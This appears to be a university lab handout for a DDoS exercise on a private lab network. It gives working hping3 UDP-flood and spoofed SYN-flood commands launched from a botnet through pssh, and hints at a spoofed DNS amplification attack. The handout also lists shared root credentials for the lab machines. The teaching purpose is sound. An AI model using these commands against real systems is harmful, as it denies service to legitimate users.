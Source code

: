 ```yaml
---
description: Flood Attack With Hping3 and TCP SYN Flooding
---
```


# DDoS Lab

## Lab Network:

You can access most machines( with IP label on monitor ) in security lab with your credentials.\
192.168.10.8\~192.168.10.24 are available to use.\
192.168.10.9 can be used as sniffer machine.

### Bot:&#x20;

machine to launch attacks.&#x20;

You are not going to log into these bots.&#x20;

IP: Bot1: 192.168.10.109 \
Hosted on machine:192.168.10.21 \
\
Bot2: 192.168.10.132 \
Hosted on machine:192.168.10.20&#x20;

Bot3: 192.168.10.107

Bot4: 192.168.10.150\
\
Credentials: root/private123

### SSH:

to get into a machine:

use: ssh username@machine-ip     to get into that machine.

it will prompt the fingerprint of the target machine and type in yes to continue.

and then it will prompt to enter password credentials.

here the cnc and bot machines username are 'root' and pass are 'private123'



### CnC:&#x20;

command and control machine used to observe and connect to Bots.&#x20;

IP: 192.168.10.111 Credentials: root/private123

### Victim machine:&#x20;

target of the DDoS attacks.&#x20;

IP: 192.168.10.112 Hosted on machine 192.168.10.22\
Port 80 open.

### DNS server:

used in DNS Amplification attack

IP: 192.168.10.135\


## 1. Performance Evaluation

Victim response time observing: \
In CnC machine, goto DDoS\_Lab4 folder and run:&#x20;

```
#./ping_web.sh 192.168.10.112
```

(192.168.10.112 - victim machine with port 80 open)\
Then the terminal will continuously check the response time of the victim machine.



## 2. Flood Attack

In the CnC machine, go to DDoS\_Lab4 folder and execute the following commands:&#x20;

PSSH: [https://linux.die.net/man/1/pssh](https://linux.die.net/man/1/pssh)

Show avaiable bots:

```bash
#pssh -h bots.txt -P -t100 'hostname'
```

Then launch the attack using:

{% code overflow="wrap" %}
```bash
#pssh -h bots.txt -P -t30 'sleep 1; hping3 --udp -d 10000 -p 80 --flood 192.168.10.112 & sleep 10; pkill hping3'
```
{% endcode %}

Arguments:

* sleep: Delay for a specified amount of time&#x20;
* hping3: Send (almost) arbitrary TCP/IP packets to network hosts&#x20;
* \--udp: UDP mode
* \-d data size: set packet body size&#x20;
* \-p: set destination port&#x20;
* \--flood: send packets as fast as possible without taking care to show incoming replies.
* &: executes the commands in the background.
* pkill: look up or signal processes based on name and other attributes.

&#x20;If the script does not stop after 30 seconds, use Ctrl+C to stop.



## 3. TCP Syn Flood

In the CnC machine, ssh into one of the bots available:&#x20;

```bash
#ssh 192.168.10.109
```

Then in the bot shell, where “root@bot\~#” shows, run&#x20;

{% code overflow="wrap" %}
```bash
#hping3 -V -c 10 -d 120 -S -w 64 -p 80 -i u10000 --rand-source 192.168.10.112
```
{% endcode %}

Arguments:

* \-V :enable verbose output
* \-c count: stop after sending(and receiving) count response packets
* \-d data size: set packet body size
* \-S: set SYN tcp flag
* \-w: set TCP window size. Default is 64.
* \-p: set destination port
* \-i: wait the specified number of seconds or microseconds between sending each packet.
* \--rand-source: this option enables the random source mode. Hping will send packets with random source addresses.

If the above command doesn’t get the expected result, change count to a bigger one.



## Appendix

Appendix:

### BOT NET&#x20;

In this lab, a botnet is constructed by a set of Kali linux VMs deployed on every host machine on the Clemson network. Each Kali VM is configured with SSH passwordless login. The CnC server is also a Kali Linux VM. The CnC server has the public key used to login to each bot. The program pssh installed on the CnC server, or parallel ssh, is used to remotely execute ssh commands on each bot in parallel. By using the CnC server, all attack traffic is launched from the bot. The victim will not be aware the true identity of the CnC server.

You can also write your own attack script, upload to the bots, and use pssh or any method to launch your attack script. pssh(1 - Linux man page https://linux.die.net/man/1/pssh

### Flood Attack&#x20;

Flood attack consumes network bandwidth by sending a large number of packets and usually from multiple bots. A flood attack does not necessarily have to be launched directly against the target. As long as one node on the route between a legitimate user and the victim is congested, the legitimate user will not be able to visit the victim node. Under such scenarios, the victim will not observe any attack traffic, but the service to the legitimate user is denied. For the configuration we have in the lab, a direct flood attack is much more effective than trying to starve the internal bandwidth of the switch. Hping3 - Linux man page https://linux.die.net/man/8/hping3

### SYN Flood&#x20;

SYN flood attack takes advantage of the three-way handshake of the TCP connection by sending a large amount of SYN packets but never actually establishing any connections. SYN cookie is one of the most commonly used methods to mitigate such attacks. However, it is still debating whether it is good to use SYN cookie on heavy loaded servers. Defenses Against TCP SYN Flooding Attacks :&#x20;

{% embed url="https://www.cisco.com/c/dam/en_us/about/ac123/ac147/archived_issues/ipj_9-4/ipj_9-4.pdf" %}

### Slow HTTP&#x20;

The slow HTTP attack sonsumes victim webpage server by slowly sending HTTP requests. The HTTP server keeps the connection until all the webserver’s resources are consumed. That is why the slowloris attack does not affect at the very beginning but slowly makes the web server stop responding. Slowloris HTTP DoS&#x20;

{% embed url="https://web.archive.org/web/20090822001255/http://ha.ckers.org/slowloris/" %}

### DNS Amplification Attack&#x20;

There are many DNS amplification attack tools available on Github. Many of them are written in python with scapy library. However, scapy is naturally very very slow. Using scapy to perform DNS amplification attacks might work when you have multiple bots and more DNS servers. As a hint, hping3 is not capable of crafting a DNS request packet, but it can be used to replay a crafted DNS payload. You can simply use dig to generate a legitimate DNS packet first, store the DNS payload only, and then send the DNS payload with a spoofed source. By using hping3, you will see the limit of a DNS server, and why the victim is not disconnected during an attack. Honeypot Based monitoring of Amplification DDoS attacks.&#x20;

{% embed url="https://labs.ripe.net/Members/johannes_krupp/honeypot-based-monitoring-of-amplification-ddos-attacks" %}
